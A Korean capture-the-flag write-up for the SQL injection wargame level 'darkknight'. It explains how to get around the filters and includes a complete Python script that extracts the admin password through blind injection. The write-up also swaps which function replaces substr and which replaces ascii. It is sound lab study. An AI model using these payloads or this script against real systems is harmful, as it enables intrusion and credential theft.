

# [12] darkknight

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdN85X8%2Fbtrno40RWs3%2FkoWsihFtPt3Lhk7ku1KN51%2Fimg.png">

## 풀이

필터링 사항은 다음과 같다.


① 싱글쿼터

② substr

③ ascii

④ =


<br>

**substr/ascii 필터링 우회 방법**은 다음과 같다.
 

① substr ⇒ ord

② ascii ⇒ mid

<br> 

또한, 이전 문제와 마찬가지로 admin의 pw를 알아야 풀 수 있는 **Blind SQLi** 문제이다.

기존에 사용했던 자동화 코드에 새로운 필터링 사항을 적용해주면 될 것 같다.

<br> 

다만, 이전과는 달리 파라미터가 두개이므로 (pw, no) 서버측 쿼리문을 잠시 살펴보겠다.

<br> 

준비된 쿼리문은 다음과 같다.

```php
$query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
```

<br>

위 쿼리문을 아래와 같이 변조해줄 것이다.

```php
$query = "select id from prob_darkknight where (id='guest' and pw='' and no=0) or id like \"admin\" %26%26 [pw 길이 확인 또는 pw 추출] %23";
```

① id부터 no까지를 하나의 중첩된 and 조건절로 묶어준다.

- 어차피 FALSE로 만드는 것이 목표이기 때문에 pw는 비워두고 no에는 아무 숫자나 할당해준다.

② \|\| id like "admin" && 뒤에 적절한 조건절을 삽입하여 pw 길이 확인 또는 pw 추출을 수행해준다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```

① = ⇒ like (문자열 일치 확인)

② = ⇒ > (ASCII 대소 비교)

- 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① substr ⇒ ord

② ascii ⇒ mid

 
<br>
 

**수정된 Python 자동화 코드**의 전문은 다음과 같다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcWiNuI%2FbtrnlqwCc4k%2FHvtf8sJOMAnp84BYeqr9kk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `0b70ea1f` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlILVk%2FbtrnjDiSeOV%2FU0OL6DlmSD1nVNdLKX3m8k%2Fimg.png">